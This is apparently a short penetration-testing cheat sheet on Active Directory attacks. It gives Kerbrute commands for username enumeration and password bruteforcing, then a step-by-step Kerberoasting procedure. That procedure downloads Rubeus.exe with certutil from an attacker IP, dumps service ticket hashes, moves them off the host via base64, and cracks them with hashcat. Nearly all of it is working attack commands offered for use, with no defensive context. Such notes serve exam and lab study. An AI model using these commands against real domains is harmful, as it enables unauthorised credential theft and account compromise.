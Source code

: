 ## Kerbrute
```bash
kerbrute userenum -d <domain> --dc <ip> -o <outfile> <users-wordlist> # Bruteforce usernames
kerbrute bruteuser -d <domain> --dc <ip> -o <outfile> <wordlist> <user@domain> # Bruteforce password
```

## Kerberoasting
1. Upload rubeus.exe to the client: `certutil -urlcache -f http://192.168.119.135/Rubeus.exe rubeus.exe`
2. Get service hashes: `rubeus.exe kerberoast /outfile:C:\temp\hashes.txt`
(Use your own method for transfering hashes to your local machine, I decided to base64 encode them and copy/paste):
3. Encode the hashes: `certutil -encode hashes.txt hashes.b64`
4. Copy the hashes: `type hashes.b64`
5. Paste the hashes in kali. Remove new lines and don't copy the "CERTIFICATE" lines.
6. Decode the hashes in kali: `base64 -d hashes.b64 > hashes.txt`
7. Isolate the SQL hash anc crack it: `hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt`
Check [[Rubeus]] for other usage
